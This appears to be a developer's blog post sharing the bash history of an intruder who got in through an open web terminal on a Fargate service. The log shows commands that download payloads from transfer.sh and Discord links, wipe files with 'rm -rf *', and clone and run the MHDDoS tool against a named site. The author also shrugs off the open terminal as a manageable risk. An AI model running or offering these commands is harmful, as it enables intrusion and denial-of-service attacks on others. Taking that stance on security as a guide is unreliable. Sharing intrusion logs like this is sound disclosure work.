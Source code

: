 ## Bash history of a hack attempt in one of my Fargate services

Yesterday I checked the bash history for an open [web terminal](http://github.com/yudai/gotty)
I left behind in of of the Fargate services I set up, and noticed a hack attempt.
Below you'll find the set of commands the attacker used. Typos and the constant
use of `clear` makes me think this isn't a pro, but it's still interseting to
see what he/she attempted.
 
```
   31  ls
   32  rm -rf *
   33  ls
   34  sudo
   35  ls
   36  sudo apt update
   37  clear
   38  ls
   39  screen -ls
   40  clear
   41  cd
   42  tmux
   43  clear
   44  ls
   45  cd /
   46  ls
   47  cd
   48  clear
   49  ulimit -n 999999
   50  clear
   51  wget
   52  curl
   53  docker
   54  udocker
   55  pip3
   56  curl https://cdn.discordapp.com/attachments/853535040250970113/878590395611775016/yt.zip --output yt.zip
   57  screen -ls
   58  ls
   59  clear
   60  unzip yt.zip
   61  pk
   62  apk update
   63  apt
   64  apt update
   65  clear
   66  tar
   67  rm -rf *
   68  clear
   69  ls
   70  clear
   71  curl https://transfer.sh/rvpSpC/root.sh --output root.sh
   72  ls
   73  curl https://transfer.sh/A2mYNo/root.tar.xz --output root.tar.xz
   74  mkdir dist
   75  ls
   76  cd dist
   77  curl https://transfer.sh/1e30zd/proot --output proot
   78  curl https://transfer.sh/9btpPw/proot.md5sum --output proot.md5sum
   79  curl https://transfer.sh/6wqMgI/proot.sha256sum --output proot.sha256sum
   80  clear
   81  cd
   82  ls
   83  tar -xvf root.tar.xz
   84  clear
   85  ./dist/proot -S . /bin/bash
   86  chmod +x ./dist/proot
   87  ./dist
   88  ./dist/proot -S . /bin/bash
   89  ls
   90  rm -rf root.sh
   91  m -rf root.tar.xz
   92  rm -rf root.tar.xz
   93  ls
   94  cd
   95  ls
   96  clear
   97  cd /
   98  ls
   99  cd
  100  ls
  101  cd dist
  102  ls
  103  rm -rf *
  104  cd /
  105  rm -rf dist
  106  clear
  107  ls
  108  cd
  109  pip3 install udocker
  110  udocker install
  111  pip3 remove udocker
  112  pip3 uninstall udocker
  113  clear
  114  curl https://github.com/indigo-dc/udocker/releases/download/v1.3.1/udocker-1.3.1.tar.gz --output udocker-1.3.1.tar.gz
  115  ls
  116  cd
  117  ls
  118  tar zxvf udocker-1.3.1.tar.gz
  119  ls
  120  clear
  121  curl https://transfer.sh/ce6sc1/udocker.tar.gz --output udocker.tar.gz
  122  tar -xvf udocker.tar.gz
  123  ls
  124  rm -rf udocker*
  125  ls
  126  clear
  127  ls
  128  git
  129  git clone https://github.com/MHProDev/MHDDoS
  130  cd MHDDoS
  131  ls
  132  pip3 install -r requirements.txt
  133  cdlls
  134  cd
  135  ls
  136  cd MHDDoS
  137  ls
  138  cd
  139  ls
  140  cd MHDDoS
  141  python3 start.py get https://host.applelife.ru/ 1 1000 http.txt 1000 9999999999999999999999999999
  142  history
```

I don't recomment visiting these URLs, or trying these commands on your system.
However, <https://github.com/MHProDev/MHDDoS> is safe. It's a DDOS Attack script
implemented in Python. The attaker was able to install it, and used it to DDOS
`https://host.applelife.ru/`.

After noticing it, I removed the configuration that enables the web terminal and
restarted the service to get back to a healthy/safe state.

FWIW, I know that leaving an open web terminal isn't safe. This is not the first
time I got an intruder there, but the previous one just poked around and didn't
attempt anything nefarious. Anyway, YOLO - these web terminals are pretty
convinient. And since there's very little an attacker can do in the running
container, I feel the risk is manageable.
